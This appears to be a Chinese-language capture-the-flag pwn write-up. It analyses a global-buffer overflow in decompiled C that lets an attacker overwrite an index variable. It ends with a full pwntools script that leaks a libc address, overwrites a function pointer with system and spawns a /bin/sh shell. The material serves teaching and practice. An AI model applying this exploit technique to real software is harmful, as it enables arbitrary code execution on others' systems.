 首先分析 gift 函数，这里提供了 puts 的函数指针，可以用来获取 libc 基址，v4=0 即可。

```c
int input()
{
  size_t v0; // rax

  puts("index>>");
  __isoc99_scanf("%d", &aint);
  if ( aint < 0 || aint > 31 )
  {
    puts("No!");
    exit(1);
  }
  puts("input>>");
  read(0, buf, 0x20uLL);
  v0 = strlen(buf);
  printf("data length is %d\n", v0);
  puts("bye~");
  read(0, &buf[aint], 4uLL);
  return close(1);
}
```

```bash
.bss:00000000002020A0 buf             db 1Ch dup(?)           ; DATA XREF: input+64↑o
.bss:00000000002020A0                                         ; input+7A↑o ...
.bss:00000000002020BC aint            dd ?                    ; DATA XREF: input+10↑o
.bss:00000000002020BC                                         ; input+28↑r ...
```

input 函数可以向 buf 内写值，buf 为全局变量存储在 .bss 段。`read(0, buf, 0x20uLL);` 存在溢出漏洞可以修改 buf 后的变量，刚好就是 aint 的值，因此可以实现任意地址写。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
libc = ELF('./libc.so.6')

io = process('./pwn')

io.sendlineafter('challenge!', b'a'*252)
io.sendlineafter('luck!', b'-1')
io.recvuntil(b'gift:\n')
puts = u64(io.recv(6).ljust(8, b'\x00'))
libc.address = puts - libc.sym['puts']
print('puts', hex(puts))

# gdb.attach(io, 'fini\n'*5)

io.sendlineafter(b'index>>', '0')
io.sendafter(b'input>>', b'/bin/sh\0'.ljust(28, b'a')+p32(2**32-136))
io.sendafter(b'bye~', p64(libc.sym['system'])[:4])
io.interactive()
# exec 1>&2
```
